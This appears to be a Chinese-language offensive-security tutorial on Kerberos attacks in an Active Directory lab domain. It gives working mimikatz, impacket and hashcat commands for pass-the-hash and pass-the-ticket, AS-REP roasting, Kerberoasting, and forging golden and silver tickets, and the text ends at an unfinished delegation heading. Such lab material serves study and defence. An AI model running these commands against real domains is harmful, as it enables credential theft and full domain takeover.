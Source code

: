 # 一、Pass The *

在Kerberos流程中预认证部分，`Client`会发送经用户哈希加密的时间戳作为凭据，如果使用明文密码，实际上也是加密成哈希再使用的，所以有用户哈希就可以进行预认证环节。

## 1. Pass The Key/Overpass The Hash

`Overpass The Hash`指的是在仅支持Kerberos协议的情况下，使用用户哈希来向KDC请求获得Kerberos TGT票据，用户哈希实际上就是RC4类型的密钥。

`Pass The Key`指的是在Kerberos预认证阶段，使用其他类型的 Kerberos 密钥（DES、AES-128、AES-256）来进行认证。

利用`mimikatz`来进行`Overpass The Hash`，需要本地管理员权限：

```
privilege::debug
sekurlsa::pth /user:user1 /domain:hack.org /ntlm:a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029150458QvFgIo.png#alt=)

或者使用`impacket`工具包`getTGT.py`申请TGT：

```
python getTGT.py hack.org/administrator -hashes :a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110291544364ltymH.png#alt=)

使用`mimikatz`导出key类型的密钥并利用，需要本地管理员权限：

```
privilege::debug
sekurlsa::ekeys
sekurlsa::pth /user:user1 /domain:hack.org /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
```

`getTGT.py`的`-aesKey`参数也支持AES256类型的密钥。

## 2. Pass The Ticket

`Pass The Ticket`即票据传递攻击，攻击者获取票据，再使用票据访问对应的服务。

可以使用`getTGT.py`来获取票据，也可以使用kekeo：

```
tgt::ask /user:administrator /domain:hack.org /ntlm:a45a7246dd74b64a67f22fd7020f1bd8
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110291605498uWxf5.png#alt=)

再导入票据：

```
kerberos::ptt TGT.kirbi
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029163749t4QFqm.png#alt=)

# 二、用户名枚举

在预认证阶段，`Client`发送的用户名如果是不存在的，KDC会返回`KDC_ERR_C_PRINCIPAL_UNKNOWN`错误，可以借此来枚举用户名，这种通常适用于没有任何域内用户权限的情况下。

常用的工具：

- Krbguess，Java编写
- nmap的`krb5-enum-users`脚本
- msf的`auxiliary/gather/kerberos_enumusers`模块

# 三、密码喷洒

在有域内用户列表的情况下可以进行密码喷洒，密码喷洒也是爆破攻击，但是跟密码爆破不同的地方在于，密码爆破通常是对一个或多个用户名分别跑密码字典；而密码喷洒则是对多个用户名测试一个弱口令。这样的优势在于更不容易触发账户的密码错误锁定策略。

如果有域内权限，应该先尝试获取域内密码策略，主要关注：

- Maximum Password Age，密码过期时间，

- Minimum Password Length，密码最小长度
- Account Lockout Duration，被锁定的帐户在自动解锁前保持锁定的分钟数
- Account Lockout Threshold，允许登录失败次数

在有域内主机权限的情况下可以使用PowerView：

```powershell
(Get-DomainPolicy)."SystemAccess"
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029212025zvcyok.png#alt=)

# 四、AS-REP Roasting

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202110292128401ejrsr.png#alt=)

如果用户配置了“不要求Kerberos预身份验证”，那攻击者就可以冒充这个用户向KDC发起`KRB_AS_REQ`请求，KDC会返回`KRB_AS_REP`，其中的`enc-part`部分是使用此用户的哈希加密的，通过对其离线破解，可以得到用户明文密码。

使用PowerView-dev发现不要求预认证的用户：

```powershell
Get-DomainUser -PreauthNotRequired -verbose
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029214543Zze1Ok.png#alt=)

之后就可以请求获取`KRB_AS_REP`，利用`impacket`工具包：

```
GetNPUsers.py hack.org/user1:passW@rd123 -request -format hashcat -outputfile hashes.asreproast
```

使用hashcat破解：

```
hashcat -m 18200 --force -a 0 hashes.asreproast password.txt
```

# 五、Kerberoasting

Kerberoasting攻击指的是获得对应服务的ST，再对其进行离线破解以获得服务的哈希，只需要一个普通域内用户。

在`KRB_TGS_REP`消息中，`ticket`字段的`enc-part`是使用所请求的服务哈希加密的。Kerberoasting与`AS-REP Roasting`类似，请求获得`KRB_TGS_REP`消息，再离线破解`ticket`字段的`enc-part`，不过前者是破解服务账户，而`AS-REP Roasting`破解的是用户账户。

要关注高价值的服务，如使用用户账户启动的服务，因为机器账户的密码是随机生成的，很难破解。

使用`GetUserSPNs.py`查询域用户注册的SPN并请求ST：

```
GetUserSPNs.py -request -dc-ip 10.211.55.100 hack.org/user1 -outputfile hashes.kerberoast
```

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211029221041Ta72Cw.png#alt=)

后面还是使用hashcat破解即可。

# 六、黄金票据

黄金票据指的是在已经获得域控制器的krbtgt用户哈希的情况下，自行签发TGT，也就能获得域内任意服务的权限。

使用`mimikatz`来签发TGT：

```
mimikatz.exe "privilege::debug" "kerberos::golden /admin:administrator /domain:hack.org /id:500 /sid:S-1-5-21-656570226-3390374433-1712624621 /krbtgt:42251cf64a43e47905a4baf14cd44ca6 /ptt"
```

伪造了administrator用户的TGT，可以成功访问域控：

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211101145333dhQ5s5.png#alt=)

# 七、白银票据

白银票据指的是在已经获得服务哈希的情况下，自行签发此服务的ST，可以获得服务的权限。

例如，我们现在有了域控制器主机账户的哈希，那么就可以签发对应服务也就是`cifs`的ST，使用mimikatz完成：

```
mimikatz.exe "privilege::debug" "kerberos::golden /user:administrator /domain:hack.org /id:500 /sid:S-1-5-21-656570226-3390374433-1712624621 /target:dc.hack.org /rc4:f5d2517c15020a8b531639109af535a1 /service:cifs /ptt" exit
```

`/rc4`参数即对应服务账户的NTLM哈希，`/service`参数为服务名：

![](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/202111011504038Wk5mo.png#alt=)

如果对应的服务配置了验证PAC，白银票据将失效。

# 八、委派（待完成）

## 1. 非约束委派

寻找配置了非约束委派的服务账户并获取其权限，让域管理员访问此服务，访问中会携带域管理员的TGT，并且缓存到内存中。

## 2. 约束委派

寻找配置了约束委派的服务账户并获取其权限，利用此账户可以代表任意用户申请可转发的ST，以访问另一个服务。

## 3. 基于资源的约束委派
